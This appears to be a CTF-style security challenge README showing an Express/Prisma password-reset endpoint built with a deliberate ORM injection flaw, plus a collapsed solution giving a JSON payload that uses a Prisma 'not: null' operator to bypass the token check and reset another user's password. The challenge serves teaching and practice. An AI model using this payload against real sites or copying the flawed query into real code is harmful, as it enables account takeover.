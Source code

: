 # Prisma ORM Leak
Is this app vulnerable to 0-click account takeover?
```javascript
const express = require('express');
const { PrismaClient } = require('@prisma/client');
const bcrypt = require('bcryptjs');

const app = express();
const prisma = new PrismaClient();
app.use(express.json());


app.post('/reset-password', async (req, res) => {
    const { email, token, newPassword } = req.body;

    if (!email || !token || !newPassword) {
        return res.status(400).json({ error: "Missing required fields" });
    }

    try {
        const user = await prisma.user.findUnique({
            where: { email, resetToken: token }
        });
        if (!user || new Date(user.resetExpires) < new Date()) {
            return res.status(400).json({ error: 'Invalid or expired token' });
        }

        const hashedPassword = await bcrypt.hash(newPassword, 10);
        await prisma.user.update({
            where: { id: user.id },
            data: { password: hashedPassword, resetToken: null, resetExpires: null }
        });

        res.json({ message: 'Password reset successfully' });
    } catch (error) {
        res.status(400).json({ error: 'Invalid token' });
    }
});

app.listen(3000, () => console.log('Server running on port 3000'));
```

## Installation
Run the following command to deploy the challenge:
```bash
docker compose up -d
```

## Rules and Objective
1. Use `test@voorivex.com:test_token` for test.
2. Try to reset `admin@voorivex.com` password.


<details>
  <summary>Toggle to see the solution</summary>

  This Challenge is vulnerable to ORM Leak, allowing you to bypass the conditions.
  Inspired by this research:
  https://www.elttam.com/blog/plorming-your-primsa-orm/

  Solution Payload:
  ```json
  {
    "email": "test@voorivexteam.com",
    "token": {
        "not": null
    },
    "newPassword":"12345"
  }
  ```

</details>